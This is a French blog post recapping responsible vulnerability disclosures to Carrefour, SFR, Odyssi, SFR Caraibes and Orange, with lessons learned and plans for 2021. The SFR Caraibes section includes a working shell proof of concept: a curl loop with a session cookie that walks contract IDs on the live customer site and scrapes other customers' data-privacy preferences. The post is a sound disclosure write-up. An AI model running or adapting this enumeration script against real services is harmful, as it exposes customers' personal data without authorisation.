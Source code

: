 ```yaml
---
layout: post
title: Securité, retours sur de la divulgation responsable
excerpt_separator:  <!--more-->
categories:
  - security
tags:
  - divulgation responsable
---
```

## TLDR;

Retour sur les divulgations responsables réalisées ([security log](/security-log)) et projets pour 2021.

![Burning steamer, Marcus Larson](/images/larson-burning-steamer.jpg)

<!--more-->

## Divulgations

### Carrefour

- Possibilité d'utiliser la cagnotte d'une autre personne et ticket de caisse contenant trop d'information personnelles
- [Rapport envoyé à Carrefour](/doc/secu/2019-09-19-app-carrefour-martinique.pdf)
- Expérience : seul un email au DPO semble avoir fait accélérer le process.

### SFR

- Plusieurs failles dans la version de la box.
- [Rapport envoyé à SFR](/doc/secu/2020-06-08-box-sfr.pdf)
- Experience : process très très long pour une résolution partielle. Création de PoCs qui n'ont jamais été discutées avec SFR.

### Odyssi

- Possibilité de récupérer les positions GPS des alertes à partir d'un email
- [Rapport envoyé à Odyssi](/doc/secu/2020-06-25-odyssi.pdf)
- Experience : correction très rapide (J+1).

### SFR Caraibes

- Présence du mot de passe SHA1 non salé dans la page et possiiblité d'accéder aux préférences RGPD des comptes.
- Email envoyé à SFR Caraibes


> 1. Les mots de passes de connexion à l'espace client sont stockés en SHA1, sans sel.
En se logguant puis en se rendant sur https://espaceclient.sfrcaraibe.fr/compte/r-moncomptePrincipal.php, on voit que le champs mot de passe est remplie, par la valeur hashée (SHA1) du mot de passe de connexion.
La connexion est sécurisée, donc l'impact est faible. Mais en cas d'attaque de la DB de connexion, les mots de passes seront retrouvés de façon triviale.
>
>2. Accès aux préférences de gestion des données personnelles. La page https://espaceclient.sfrcaraibe.fr/rgpd/r-donneespersonnelles.php, est obtenue avec un ID (l'ID contrat). En passant un autre ID que le sien (tout en étant logué), il semble possible de récupérer les choix réalisés.
Dans le pire des cas, il serait alors possible également de les modifier, ce qui bien sur pose problème puisque ces préférences sont ensuite utilisées pour partager de l'information avec des tiers.


Le point 1. est validé mais SFR ne croit pas au point 2.

L'envoi du script ci-dessous permet de mettre en évidence le problème.
```
#!/bin/sh

PHPSESSID="xxx" # utiliser un cookie obtenu en se logguant sur https://espaceclient.sfrcaraibe.fr/

# On peut passer le cookie en paramètre
if [ $# -gt 0 ]; then
  PHPSESSID=$1;
fi

# K61237 => contrat de Guillem Lefait => refuse tout
# ..
# K61270 => contrat de ??             => refuse tout
# ..
# K61313 => contrat de ??             => refuse tout
# ..
# K61338 => contrat de ??             => refuse groupe + enquete
# ..
# K61616 => contrat de ??             => refuse tout

for i in {61235..61300}; do
	echo "$i ----------";
	curl 'https://espaceclient.sfrcaraibe.fr/rgpd/r-donneespersonnelles.php' \
        -H 'Content-Type: application/x-www-form-urlencoded' \
		-H "Cookie: PHPSESSID=${PHPSESSID}" \
		--data-raw "contrat=K$i" \
		--silent |
        grep -P '<input [^>]*type="radio"[^>]* checked="true">' | # on peut faire la même chose
        sed -r 's#^.*name="([^"]+)".*value="([^"]+).*$#\1\t\2#';          # avec les préférences de contact
done
```

- Expérience : traitement assez rapide (5 jours). J'aurais du faire un script immédiatement pour montrer le point 2. Le fait que les mots de passes soient stockés en SHA1 non salés n'a pas été adressé.

### Orange
- par email, en attente


## Projets 2021

1. Systématiser les rapports (pas uniquement des emails) pour garder une trame complète.

2. Mesurer le temps passé par projet.

3. Préparer une PoC minimale et vérifier si le sujet est hors-scope.

4. Faire du bug bounty pour tenter de percevoir en 2021, un gain financier supérieur à 2020. Soit toute somme supérieure à 0.
